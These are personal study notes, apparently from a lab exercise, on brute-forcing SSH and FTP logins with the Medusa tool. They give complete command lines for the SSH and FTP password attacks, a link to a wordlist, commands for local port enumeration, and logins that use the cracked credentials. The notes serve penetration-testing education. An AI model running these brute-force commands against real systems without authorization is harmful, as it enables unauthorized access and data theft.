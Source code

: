# Page

#### Personal Notes on Web Services and Brute-Force Attacks

**Overview of Web Services**

* In cybersecurity, robust authentication mechanisms are crucial for protecting systems.
* Protocols like **Secure Shell (SSH)** and **File Transfer Protocol (FTP)** are commonly used for secure remote access and file management but can be vulnerable to brute-force attacks if weak passwords are employed.

**Understanding SSH and FTP**

* **SSH**: A cryptographic protocol providing secure remote login and command execution. Its encryption makes it more secure than unencrypted protocols like Telnet, but weak passwords can still expose it to brute-force attacks.
* **FTP**: A standard protocol for transferring files, but it transmits data, including credentials, in cleartext, making it susceptible to interception and brute-forcing.

**Kick-off**

* To demonstrate the use of Medusa for brute-forcing, we will target an SSH server. Assuming we know the username (`sshuser`), we can use Medusa to try various password combinations.

**Example Command for SSH Brute-Force**

{% code overflow="wrap" %}
```bash
medusa -h <SERVER_IP> -n <SERVER_PORT> -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
```
{% endcode %}

* **Components**:
  * `-h <IP>`: Target system's IP address.
  * `-n <PORT>`: Port for the SSH service (usually port 22).
  * `-u sshuser`: Username for the attack.
  * `-P 2023-200_most_used_passwords.txt`: [Wordlist](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt) of common passwords.
  * `-M ssh`: Specifies the SSH module.
  * `-t 3`: Number of parallel login attempts.

**Gaining Access**

* Upon executing the command, Medusa will attempt various passwords and indicate a successful login when the correct password is found.

**Establishing an SSH Connection**

```bash
ssh sshuser@<SERVER_IP> -p <SERVER_PORT>
```

* This command initiates an SSH session, granting access to the remote system's command line.

**Expanding the Attack Surface**

* Once logged in, use `netstat` to identify open ports and services:

```bash
netstat -tulpn | grep LISTEN
```

* This may reveal additional services, such as an FTP server running on port 21.

**Confirming with Nmap**

```bash
nmap localhost
```

* This command scans for open ports and confirms the presence of the FTP service.

**Targeting the FTP Server**

* With the FTP server identified, we can proceed to brute-force its authentication.

**Example Command for FTP Brute-Force**

```bash
medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5
```

* **Components**:
  * `-h 127.0.0.1`: Targets the local system.
  * `-u ftpuser`: Specifies the FTP username.
  * `-M ftp`: Selects the FTP module.
  * `-t 5`: Sets the number of parallel login attempts to 5.

**Accessing System Files**

* Upon successfully cracking the FTP password, establish an FTP connection:

```bash
ftp ftp://ftpuser:<FTPUSER_PASSWORD>@localhost
```

* After logging in, you can list files and download them, potentially gaining access to sensitive system files.

#### Key Takeaways

* Brute-force attacks can exploit weak authentication mechanisms in SSH and FTP.
* Tools like Medusa can automate the process of testing multiple password combinations.
* Always ensure proper authorization before testing systems to avoid legal issues.
